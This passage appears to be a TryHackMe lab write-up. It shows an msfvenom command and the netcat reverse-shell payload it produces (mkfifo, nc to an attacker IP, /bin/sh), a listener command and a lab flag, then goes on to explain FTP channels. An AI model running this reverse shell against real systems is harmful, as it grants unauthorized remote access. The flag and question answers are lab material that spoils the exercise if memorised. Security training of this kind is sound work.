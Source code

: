 `"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format
 
=>

> mkfifo /tmp/wiyzvy; nc 10.10.120.207 4444 0</tmp/wiyzvy | /bin/sh >/tmp/wiyzvy 2>&1; rm /tmp/wiyzvy


3. What word does the generated payload start with?

--> mkfifo

4. What would the command look like for the listening port we selected in our payload?

--> nc -lvp 4444

# ![](getting_shell link?raw=true)

flag.txt --> `THM{y0u_g0t_th3_t3ln3t_fl4g}`


Task8: Understanding FTP
-------------------------

#### What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

#### How does FTP work?

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, 

- the command channel is used for transmitting commands as well as replies to those commands.

- the data channel is used for transferring data.


FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.


#### Active vs Passive

The FTP server may support either Active or Passive connections, or both. 

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
